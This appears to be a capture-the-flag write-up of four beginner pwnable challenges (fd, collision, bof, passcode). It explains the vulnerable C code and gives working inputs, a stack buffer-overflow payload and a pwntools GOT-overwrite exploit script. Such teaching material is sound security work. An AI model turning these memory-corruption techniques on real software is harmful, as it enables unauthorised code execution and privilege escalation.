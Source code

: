 ## Toddler's Bottle Challenges

### [fd]

After ssh-ing into the box, we can run `ls` to see that there are three files present, a 32-bit Linux ELF executable, the source code for the executable, and a flag file.  Attempting to `cat` the flag yields a privilege error because we are a guest user.  Consequently, we need to use the executable to read the flag.  Examining the source code shows a call to `system("/bin/cat flag");` if the input buffer, read from a calculated file descriptor, is equivalent to `"LETMEWIN\n"`.  

~~~c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}
~~~

The trick for this is to understand that the Linux file descriptor for standard input is 0.  Since `fd` is calculated by taking the input argument minus `0x1234`, we need to use an input argument of 4660 (the equivalent value in decimal).  This allows us to pass standard input into the binary to be processed.  We can create a file with the required text, or use `echo` (which will automatically append a new line `\n` character to the end of the text).  Using `echo "LETMEWIN" | ./fd 4660` yields the flag.


### collision

We are presented with a similar situation to the previous challenge, and need to use the `col` binary to read the flag.  In this case, we need to present an input of 20 bytes which will be processed and compared to `0x21DD09EC`.  The "processing" includes casting the input from a character string to an integer array.  Since an integer is four bytes, the input will parsed into five groups.  It is important to run `file` on the binary to determine endianess - in this case, the result is `ELF 32-bit LSB executable`, indicating little-endian (Least Signficant Byte).  This means that the bytes in each group will be reversed when processed as integers.  The integers are then summed into a `res` variable which is returned and compared to `0x21DD09EC`.  

~~~c
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
        int* ip = (int*)p;
        int i;
        int res=0;
        for(i=0; i<5; i++){
                res += ip[i];
        }
        return res;
}

int main(int argc, char* argv[]){
        if(argc<2){
                printf("usage : %s [passcode]\n", argv[0]);
                return 0;
        }
        if(strlen(argv[1]) != 20){
                printf("passcode length should be 20 bytes\n");
                return 0;
        }

        if(hashcode == check_password( argv[1] )){
                system("/bin/cat flag");
                return 0;
        }
        else
                printf("wrong passcode.\n");
        return 0;
}
~~~

We can calculate `0x21DD09EC/5` to determine which integers to send.  The result is `113626824.8`, which means we can send `113626825` four times and `113626824` once to return `0x21DD09EC`.  Converting these values to hex yields `0x6C5CEC9` and `0x6C5CEC8`, respectively.  Again, we need to arrange in little endian format to correctly process the integers.  It is easiest to use `echo -e -n` and pipe the result to the executable given the bytes are not ASCII characters (here the `-n` flag suppresses a new line character, which is necessary otherwise we would input 21 bytes, not 20).  Running `./col $(echo -n -e "\xc8\xce\xc5\x6\xc9\xce\xc5\x6\xc9\xce\xc5\x6\xc9\xce\xc5\x6\xc9\xce\xc5\x6")` yields the flag.

### bof
For this challenge we are provided links to download a bof executable and the corresponding C source code.  Doing a quick check with `file`, `bof` is again a 32-bit little-endian ELF executable.  A quick scan of the source code shows a `gets` vulnerability in the `puts()` function. Opening the binary in gdb and diassembling `func()` provides the binary's assembly code: 

~~~gdb
gdb-peda$ disass func
Dump of assembler code for function func:
   0x5655562c <+0>:     push   ebp
   0x5655562d <+1>:     mov    ebp,esp
   0x5655562f <+3>:     sub    esp,0x48
   0x56555632 <+6>:     mov    eax,gs:0x14
   0x56555638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:    xor    eax,eax
   0x5655563d <+17>:    mov    DWORD PTR [esp],0x5655578c
   0x56555644 <+24>:    call   0xf7e38420 <puts>
   0x56555649 <+29>:    lea    eax,[ebp-0x2c]
   0x5655564c <+32>:    mov    DWORD PTR [esp],eax
   0x5655564f <+35>:    call   0xf7e37940 <gets>
   0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    mov    DWORD PTR [esp],0x5655579b
   0x56555664 <+56>:    call   0xf7e0d000 <system>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    mov    DWORD PTR [esp],0x565557a3
   0x56555672 <+70>:    call   0xf7e38420 <puts>
   0x56555677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0xf7edba20 <__stack_chk_fail>
   0x56555688 <+92>:    leave  
   0x56555689 <+93>:    ret  
~~~

This again shows there is no bound checking on the input; the binary will store the input buffer at `[esp]` which is equal to `[ebp - 0x2c]`.  Note also that a stack canary is used but not checked before running the system call.  Access to the system call requires passing the check: `cmp    DWORD PTR [ebp+0x8],0xcafebabe`.  Thus, a simple buffer overflow storing `0xcafebabe` at `ebp+0x8` is sufficient to get a shell (for full code, see `bof_solver.py`):

~~~python
def main(arguments):
    check = 0xcafebabe
    p = binary_connect(arguments)
    p.send(b'A'* 0x2c + b'B' * 8 + p32(check) + b'\n')
    p.interactive()
~~~

### passcode
This binary appears to have some `scanf` vulnerabilities, hinted at by the comments in the source code.  Running `clang passcode.c -o passcode` illuminates this hint with `clang`'s warning flags: 

~~~bash
passcode.c:9:14: warning: format specifies type 'int *' but the argument has type 'int' [-Wformat]
        scanf("%d", passcode1);
               ~~   ^~~~~~~~~
passcode.c:14:21: warning: format specifies type 'int *' but the argument has type 'int' [-Wformat]
        scanf("%d", passcode2);
~~~

The key to this vulnerability is that the `passcode` values are stored as integers on the stack within the `login` function. `scanf` will attempt to store user input at the memory address pointed to by the stack values.  Running the program in gdb shows that `passcode1` attemps to store the value at an address in glibc, which does not have write privileges: 

~~~gdb 
[-------------------------------------code-------------------------------------]
   0x804857c <login+24>:        mov    edx,DWORD PTR [ebp-0x10]
   0x804857f <login+27>:        mov    DWORD PTR [esp+0x4],edx
   0x8048583 <login+31>:        mov    DWORD PTR [esp],eax
=> 0x8048586 <login+34>:        call   0x80484a0 <__isoc99_scanf@plt>
   0x804858b <login+39>:        mov    eax,ds:0x804a02c
[------------------------------------stack-------------------------------------]
0000| 0xfff2b6f0 --> 0x8048783 --> 0x65006425 ('%d')
0004| 0xfff2b6f4 --> 0xf7631cab (<puts+11>:     add    ebx,0x152355)
~~~

This will cause a segmentation fault when executed.  However, some simple testing shows that the username queried prior to `login` can be used to alter some stack values, which are later retrieved during the `login` function.  The `welcome` function accepts a full 100 characters using `scanf` and stores the input in a 100 character stack buffer.  This has an off-by-one error, as `scanf` accepts the full 100 characters and then adds a trailing null byte.  This is perfect for our uses, since the final four bytes of username input coincide with the stack address where `passcode1` is eventually stored.  This gives us control to change the pointer where the `passcode1` input will be stored with the username input.  We want to control execution flow to call the instructions after the credential checks in `login`, and a great target to hijack execution is using the GOT address for `fflush`, since it is called immediately after `passcode1` is retrieved.  We can retrieve the GOT address using pwntools and send it in as the last four bytes of our username.  Then, we overwrite this GOT address with the address of the validated login instructions.  Note that this address should be passed in as a string of integers, since `scanf` expects a string input of decimal numbers.  The following short script accomplishes this goal and gains elevated privileges to cat the flag.

~~~python
from pwn import *

def exploit():
        p = process('/home/passcode/passcode')
        e = ELF('/home/passcode/passcode')
        fflush_got_addr = e.got['fflush']
        login_addr = 0x80485d7
        print (hex(fflush_got_addr), login_addr)
        p.send(b"A" * 96 + p32(fflush_got_addr) + str(login_addr))
        print(p.recv)

        p.interactive()

if __name__ == "__main__":
        context.log_level = 'debug'
        exploit()
~~~
